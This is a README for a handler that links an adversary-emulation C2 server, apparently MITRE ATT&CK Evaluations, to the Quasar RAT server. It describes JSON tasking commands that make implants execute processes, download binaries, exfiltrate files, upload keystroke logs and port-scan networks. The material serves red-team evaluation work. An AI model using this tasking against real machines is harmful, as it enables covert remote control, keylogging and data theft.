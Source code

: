 # Quasar C2 Server Compatibility Handler

This Quasar handler links the ATT&CK Evals C2 server with the standalone [Quasar C2 server by MaxXor](https://github.com/quasar/Quasar).
Note that the Quasar C2 server has been modified to support compatibility with the Evals C2 server - for more information, please see the modified
Quasar C2 server documentation in your Evals repository.

The compatibility between the Evals C2 server and the Quasar C2 server leverages REST API functionality provided by both the Evals C2 server and the modified Quasar
C2 server.

## Features

- Tracks Quasar implant sessions that are actively connected to the Quasar server
  - Every 15 seconds, gets a list of active Quasar implant connections. New implant connections are logged as new Quasar sessions via the Evals REST API server.
  - Implant sessions that get disconnected are logged to the Evals C2 server log file.
- Can task Quasar implants to do the following:
  - Execute processes on the local target machine
  - Perform a port scan for specific ports against a given network range
  - Download files from the Quasar server (the files must exist on the Quasar server itself)
  - Upload files to the Quasar server, which the Quasar evals C2 handler will pick up and save locally on the Evals C2 server.
  - Upload logged keystrokes to the Quasar server

## Tasking

You can task Quasar implants by sending requests to the internal REST server using the `evalsC2client.py` script. The Quasar handler will allow operators to task the following command types using a JSON dict payload format.

The JSON dict can contain the following fields:

- `seq` - `int` that represents the task number for the implant. This is for operator usability purposes so operators don't lose track of which commands they ran so far.
- `type` - `int` that represents the task type (e.g. process execution, file download, file upload)
  - `1` - execute a process
  - `2` - download file from Quasar server
  - `3` - upload file to Quasar Server
  - `4` - upload keystroke logs to Quasar Server for the specified client.
  - `5` - perform a port scan against a network range for specific ports
- `timeout` - `int` that represents the timeout in seconds for the Quasar handler to wait for tasks to complete. Default is 120 seconds. The timeout will be rounded up to the nearest multiple of 10. Specifying `0` will use the default value.
- Specific fields for process execution (task type `1`):
  - `proc_path` - string representing the local binary on the target machine to execute
  - `proc_args` - string representing the arguments to pass
  - `download_url` - string representing where to download a binary from to execute
  - `download_dst` - string indicating where to save the binary downloaded from `download_url`
  - `use_shell` - boolean indicating whether or not to execute the process using the OS shell. See [Microsoft documentation](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo.useshellexecute?view=netframework-4.7.2) for more information
  - `get_output` - boolean indicating whether or not to wait for the process to finish and retrieve stdout and stderr
  - `no_window` - boolean indicating whether or not to start the process in a new window. Some processes, like notepad, will create a new window regardless.
- Specific fields for general file transfers (task types `2` and `3`):
  - `transfer_src` - `string` that represents the source file for file transfers. Required when tasking file downloads or uploads.
  - `transfer_dst` - `string` that represents the destination file for file transfers.
- Specific fields for port scan tasks (task type `5`):
  - `range` - IPv4 CIDR `string` that specifies the target network to scan (e.g. `10.0.2.0/28`)
  - `ports` - `int` array that specifies which port(s) to scan. Must provide at least one port

Below are examples of each type code:

- `'{"seq": 1, "type": 1, "proc_path": "whoami.exe", "proc_args": "/all"}'` - the task type code `1` will have the implant execute `whoami.exe /all`, and the Quasar handler will retrieve the process stdout, stderr, PID, and exit code.
- `'{"seq": 4, "type": 1, "proc_path": "notepad.exe", "get_output": false}'` - open notepad and only retrieve the PID rather than waiting for process termination
- `{"type": 2, "transfer_src": "...", "transfer_dst": "..."}` - the task type code `2` will have the implant download the file specified by `transfer_src` from the Quasar server and save it to the path specified by `transfer_dst`.
- `{"type": 3, "transfer_src": "...", "transfer_dst": "..."}` - the task type code `3` will have the implant upload the file specified by `transfer_src` to the Quasar server, which will save it locally as the filename specified by `transfer_dst`. The Quasar c2 handler will grab the uploaded file and save it locally on the evals c2 server machine under the `./files/` subdirectory using the same filename specified by `transfer_dst`.
- `{"type": 4}` - instruct implant to upload its keystroke log files.
- `'{"type": 5, "range": "10.0.2.0/28", "ports":[8888, 3389], "timeout": 300}'` - instruct implant to perform a port scan for ports 8888 and 3389 against the `10.0.2.0/28` network range. The C2 handler will wait 300 seconds (5 minutes) before timing out

Examples of valid tasking:

```
./evalsC2client.py --set-task <guid> '{"seq": 1, "type": 1, "proc_path": "whoami.exe", "proc_args": "/all"}'
./evalsC2client.py --set-task <guid> '{"seq": 4, "type": 1, "proc_path": "notepad.exe", "get_output": false}'
./evalsC2client.py --set-task <guid> '{"type": 2, "transfer_src": "C:\\file\\on\\quasar\\server", "transfer_dst": "C:\\dest\\on\\target\\machine"}'
./evalsC2client.py --set-task <guid> '{"type": 3, "transfer_src": "C:\\file\\to\\exfil", "transfer_dst": "exfil.zip"}'
./evalsC2client.py --set-task <guid> '{"type": 4}'
./evalsC2client.py --set-task <guid> '{"type": 5, "range": "10.0.2.0/28", "ports":[8888, 3389], "timeout": 300}'
```

## Authentication

Under the hood, the Quasar handler will send the expected API key header when making REST API requests. If updating the API key in the Quasar C2 server source code, be sure to update it in the Quasar handler source code and recompile the evals c2 server binary.

## Decrypting Client Logs

Since each Quasar client log entry line is AES-encrypted and then base64-encoded, use the `decryptquasarlogs.py` utility to decrypt client logs:

```
python3 decryptquasarlogs.py -i /path/to/encrypted/logs -o out.txt
```

You will need to install pycryptodome first: `pip install pycryptodome`

## Usage

### Configuration

To enable and configure the Quasar handler within the control server, edit the corresponding handler config file within the `config/`
directory in the main C2 server repo. Create or adjust an existing Quasar handler entry as needed.

Example:

```
quasar:
  host: 10.0.2.7
  port: 80
  enabled: true
```

Note that `host` and `port` will not point to the address and listening port of the Evals C2 server, but rather to the address and listening port
of the Windows server running the Quasar C2 server.

Run the `controlServer` binary as `sudo` and look for success messages in starting up the Quasar handler:

```
sudo ./controlServer -c config/yourconfigfile.yml
```

## Troubleshooting

The Quasar handler uses the same logging mechanism as other Evals C2 handlers, so refer to the C2 server logs for any indication of errors.
However, since Quasar uses a separate server that the Evals C2 handler interacts with to a limited degree, there may be issues between the Quasar server and client
that the Quasar C2 handler doesn't have visilibity on. In those instances, refer to the Quasar documentation to inspect logs and troubleshoot some issues.

Below are some potential issues and how to address them:

- Suddenly unable to task implant, or implant doesn't seem to be picking up new tasks, even though it is active and executed tasks before
  - Restart the Quasar server to refresh the connection and then try tasking again
